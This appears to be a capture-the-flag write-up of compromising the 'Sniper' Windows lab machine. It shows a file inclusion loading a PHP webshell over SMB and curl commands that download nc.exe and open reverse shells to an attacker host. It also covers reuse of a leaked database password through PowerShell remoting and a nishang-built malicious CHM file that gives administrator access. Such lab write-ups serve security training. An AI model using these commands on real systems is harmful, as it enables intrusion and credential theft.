# Sniper

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 5000 10.129.229.6
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-03 09:19 EDT
Nmap scan report for 10.129.229.6
Host is up (0.011s latency).
Not shown: 65530 filtered tcp ports (no-response)
PORT      STATE SERVICE
80/tcp    open  http
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
49667/tcp open  unknown
```

### Sniper Co

Port 80 is hosting a corporate website:

<figure><img src="../../../.gitbook/assets/image (178) (2).png" alt=""><figcaption></figcaption></figure>

I clicked all the services, and found that Our Services works and brings us to `/blog/index.php`.&#x20;

<figure><img src="../../../.gitbook/assets/image (182) (3).png" alt=""><figcaption></figcaption></figure>

When changing languages, I noticed this:

<figure><img src="../../../.gitbook/assets/image (198).png" alt=""><figcaption></figcaption></figure>

This looks vulnerable to LFI, and since this is a Windows machine, we can try to use `\\` to access our machien via SMB. I hosted a `cmd.php` webshell using `smbserver.py`. Then, we can try to access it via `curl`.

```bash
curl 'http://10.129.229.6/blog/?lang=\\10.10.14.13\share\cmd.php&cmd=whoami'
<TRUNCATED>
nt authority\iusr
```

This works! We can now get a reverse shell using `nc.exe`.

<pre class="language-bash" data-overflow="wrap"><code class="lang-bash">curl 'http://10.129.229.6/blog/?lang=\\10.10.14.13\share\cmd.php&#x26;cmd=powershell+-c+wget+10.10.14.13/nc64.exe+-Outfile+C:\windows\tasks\nc.exe'

<strong>curl 'http://10.129.229.6/blog/?lang=\\10.10.14.13\share\cmd.php&#x26;cmd=C:\windows\tasks\nc.exe+-e+cmd.exe+10.10.14.13+4444'
</strong></code></pre>

<figure><img src="../../../.gitbook/assets/image (158) (4).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Chris Credentials

Within the files for the website, we can see a `user` directory:

```
C:\inetpub\wwwroot>dir
Volume in drive C has no label.
Volume Serial Number is AE98-73A8

Directory of C:\inetpub\wwwroot

04/11/2019  10:51 AM    <DIR>          .
04/11/2019  10:51 AM    <DIR>          ..
04/11/2019  05:23 AM    <DIR>          blog
04/11/2019  05:23 AM    <DIR>          css
04/11/2019  05:23 AM    <DIR>          images
04/11/2019  05:22 PM             2,635 index.php
04/11/2019  05:23 AM    <DIR>          js
04/11/2019  05:23 AM    <DIR>          scss
10/01/2019  08:44 AM    <DIR>          user
               1 File(s)          2,635 bytes
               8 Dir(s)   2,415,136,768 bytes free
```

Within that, there is a `db.php` file that contains credentials:

```php
<?php
// Enter your Host, username, password, database below.
// I left password empty because i do not set password on localhost.
$con = mysqli_connect("localhost","dbuser","36mEAhz/B8xQ~2VM","sniper");
// Check connection
if (mysqli_connect_errno())
  {
  echo "Failed to connect to MySQL: " . mysqli_connect_error();
  }
?>
```

This might be the credentials for the user, `Chris`. When we check the user's permissions, we se that he's part of the Remote Management Use group, meaning that we can use this credentials using Remote Powershell to get RCE.

```
C:\inetpub\wwwroot\user>net user chris
User name                    Chris
Full Name                    
Comment                      
User's comment               
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            4/11/2019 6:53:37 AM
Password expires             Never
Password changeable      4/11/2019 6:53:37 AM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script                 
User profile                 
Home directory               
Last logon                   8/15/2019 12:23:43 AM

Logon hours allowed          All

Local Group Memberships      *Remote Management Use*Users                
Global Group memberships     *None                 
The command completed successfully.
```

This can be done like so:

```powershell
$pass = ConvertTo-SecureString "36mEAhz/B8xQ~2VM" -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential("sniper\chris", $pass)
Invoke-Command -Computer localhost -ScriptBlock { whoami } -Credential $cred
# for shell
Invoke-Command -Computer localhost -ScriptBlock { \\10.10.14.13\share\nc64.exe -e cmd.exe 10.10.14.13 4444 } -Credential $cred
```

<figure><img src="../../../.gitbook/assets/image (149) (5).png" alt=""><figcaption></figcaption></figure>

Now, we can execute `nc.exe` file to get another reverse shell and grab the user file.

<figure><img src="../../../.gitbook/assets/image (160) (4).png" alt=""><figcaption></figcaption></figure>

### CHM

As the user, we can view `C:\Docs`. Inside, there are some files, including a note.

{% code overflow="wrap" %}
```
C:\Docs>type note.txt
Hi Chris,
        Your php skillz suck. Contact yamitenshi so that he teaches you how to use it and after that fix the website as there are a lot of bugs on it. And I hope that you've prepared the documentation for our new app. Drop it here when you're done with it.

Regards,
Sniper CEO.
```
{% endcode %}

Within the user's Downloads file, we find a `chm` file.

```
C:\Users\Chris\Downloads>ir
dir
 Volume in drive C has no label.
 Volume Serial Number is AE98-73A8

 Directory of C:\Users\Chris\Downloads

04/11/2019  08:36 AM    <DIR>          .
04/11/2019  08:36 AM    <DIR>          ..
04/11/2019  08:36 AM            10,462 instructions.chm
               1 File(s)         10,462 bytes
               2 Dir(s)   2,421,116,928 bytes free
```

We can transfer this back to our machine via SMB for further analysis. This is a Windows file, so we can open it on our Windows machine.

<figure><img src="../../../.gitbook/assets/image (68) (4) (1).png" alt=""><figcaption></figcaption></figure>

Interesting. CHM is exploitable by us, and we can use `nishang` to do so. All we need to do is use `Out-CHM.ps1` to create a CHM file with a payload.

```powershell
# on Windows
Out-CHM -Payload "\\10.10.14.13\share\nc.exe -e cmd.exe 10.10.14.13 4444" -HHCPath "C:\Program Files (x86)\HTML Help Workshop"
```

This would generate another CHM file, of which we just need to download it to the machine and rename it as `instructions.chm` and place it within `C:\Docs`. Then, we just need to wait a bit and our listener port will catch a reverse shell as the administrator.&#x20;

```
$ nc -lnvp 4444                        
listening on [any] 4444 ...
connect to [10.10.14.13] from (UNKNOWN) [10.129.229.6] 49675
Microsoft Windows [Version 10.0.17763.678]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\inetpub\wwwroot\blog>whoami
whoami
sniper\administrator
```
